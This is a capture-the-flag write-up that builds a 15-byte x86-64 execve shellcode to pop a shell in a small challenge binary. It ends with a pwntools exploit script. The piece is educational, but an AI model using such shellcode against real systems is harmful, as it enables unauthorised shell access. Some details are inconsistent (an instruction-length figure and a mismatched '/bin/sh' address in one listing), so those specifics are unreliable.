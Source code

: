 # Shellcoding 'Free Your Mind' Writeup

This challenge is a short, 16 line program, with one input. The goal is to gain a shell on the remote system.

```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

If we run `checksec` on the binary, we see that the stack is in fact executable ('NX disabled' and 'Has RWX segments'):
```
━━┫ checksec shellcoding
[*] '/home/shellcoding/shellcoding'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Your input is cast to a function pointer and called. This means that in order to get a shell, we must provide some shellcode that when executed will result in a shell. This is a relatively common situation, and many shellcodes are publicly available. The reason we are unable to use public shellcodes, however, is that the length of our input is limited to 16 bytes. The short `x86_64` linux shellcodes are around 20 bytes, which is too long.

In this situation, it might be a good approach to modify an existing shellcode, such as the one here: https://packetstormsecurity.com/files/153038/Linux-x64-execve-bin-sh-Shellcode.html.
```asm
xor rsi,rsi
push rsi
mov rdi,0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 59
pop rax
cdq
syscall
```

This shellcode is 23 bytes long, and we need to find a way to shrink it to 16 bytes long. We can look at the lengths of each instruction to see the best ways to shorten the shellcode:

```
xor rsi,rsi - 3
push rsi - 1
mov rdi,0x68732f2f6e69622f - 6
push rdi - 1
push rsp - 1
pop rdi - 1
push 59 - 2
pop rax - 1
cdq - 1
syscall - 2
```

The shellcode sets up the arguments for `syscall`. `rax` must be set to 59, `rdi` must be a pointer to `/bin/sh` (or the command to be executed), and `rsi` should be set to 0.

Noteably, this program has PIE disabled, and the string "/bin/sh" is loaded in the data section of the binary.
```
char binsh[8] = "/bin/sh";
```

This means that if we run the binary, the string `"/bin/sh"` will be in the same place in memory every run. We can use gdb (with GEF) to search for its location:

```
gef➤  break main
Breakpoint 1 at 0x401146
gef➤  run
Starting program: /home/nat/Dev/bootcamp-2020/pwn/shellcoding/src/shellcoding 

Breakpoint 1, 0x0000000000401146 in main ()
gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/home/shellcoding/shellcoding'(0x400000-0x403000), permission=r-x
  0x40115b - 0x401162  →   "/bin/sh" 
[+] In '/lib/libc-2.31.so'(0x7ffff7e0e000-0x7ffff7fc3000), permission=r-x
  0x7ffff7f8dafa - 0x7ffff7f8db01  →   "/bin/sh"
```

The pointer to `"/bin/sh"` is `0x40115b`. Another version exists in the libc, but the location libc is loaded at will change each run.


We can now modify the shellcode so that instead of loading a pointer to the stack, we use the existing pointer to `"/bin/sh"`:
```
xor rsi,rsi - 3
push 0x4011b3 - 5
pop rdi - 1
push 59 - 2
pop rax - 1
cdq - 1
syscall - 2
```

This shellcode is 15 bytes long, which is short enough. We can use pwntools to assemble and send it:

```python
from pwn import *

p = process("./shellcoding")
context.arch = 'amd64'

shellcode = asm("""
xor rsi,rsi
push 0x40115b
pop rdi
push 59
pop rax
cdq
syscall
""")

p.sendline(bytes(shellcode))
p.interactive()
```

